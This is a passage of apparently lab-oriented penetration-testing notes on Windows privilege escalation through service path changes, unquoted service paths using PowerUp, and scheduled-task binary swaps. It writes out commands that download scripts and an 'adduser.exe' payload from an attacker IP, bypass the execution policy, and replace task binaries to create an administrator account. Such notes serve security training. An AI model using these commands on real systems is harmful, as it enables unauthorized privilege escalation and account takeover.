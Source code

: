 If you have permissions over the service, you can modify the service's executable path:

```bash
sc config servicename binPath= "C:\Path\To\New\Service.exe"
```

Don't forget to put everything back where it was. :)

**Automated Unquoted Service Paths Exploitation**

```bash
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
net user
net localgroup administrators # Verify
```

### Scheduled Tasks

For us, three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

    As which user account (principal) does this task get executed?
    What triggers are specified for the task?
    What actions are executed when one or more of these triggers are met?

We can view scheduled tasks on Windows with the **Get-ScheduledTask** Cmdlet or the command **schtasks/query**. We'll use the latter. We enter /fo with LIST as argument to specify the output format as list. Additionally, we add /v to display all properties of a task. We should seek interesting information in the Author, TaskName, Task To Run, Run As User, and Next Run Time fields. In our case, "interesting" means that the information partially or completely answers one of the three questions above.

```bash
schtasks /query /fo LIST /v | Select-String -Pattern "04:0" -Context 4,4 # Smart to filter the output to tasks being run in the same hour as the current time
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe # Check permissions for scheduled task
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe # Same binary that we made for swapping binary file
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
net user
net localgroup administrators # Verify new user is created
```

```bash
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

#### Get-Service

If a particular file has a vulnerability and you wanna see which process it is tied to (if any), run:
